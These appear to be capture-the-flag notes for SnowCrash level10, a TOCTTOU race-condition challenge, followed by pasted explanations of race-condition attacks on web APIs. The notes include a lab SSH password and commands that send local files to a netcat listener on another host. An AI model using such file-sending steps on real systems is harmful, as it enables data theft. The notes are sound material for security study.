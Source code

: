 TOCTTOU / race conditions 


ssh level10@ip -p 4242
password: s5cAJpM8ev6XHw998pRWG728z


strings level10

```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```

```
echo "test" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14
Connecting to 10.12.10.14:6969 .. Connected!
Sending file .. wrote file!
```
on the host:
```
nc -l 6969
.*( )*.
test
```

```
level10@SnowCrash:~$ echo "`getflag`" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14

nc -l 6969
.*( )*.
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```





race condition = use one code several times

When you make the web page perform some action that should be done only once, but if the action is done several times you will be benefited, you really need to try a Race condicion.
Most of the time this is directly related with money (if an action is made you get X money, so let's try to make it several time very quickly).


Race condition is architectural vulnerability of a multi-threaded application, in which the application operation depends on the order in which the parts of the code are executed.


A race condition is when two or more requests are sent at the same millisecond to an API. When an API does not have a mechanism to handle this scenario, it can lead to the API processing the requests in an unintended manner.

This attack is named “Race Condition” because it is a race between how fast an attacker sends requests to modify a resource and how fast the application updates that particular resource.

https://labs.detectify.com/2021/08/10/how-to-hack-apis-in-2021/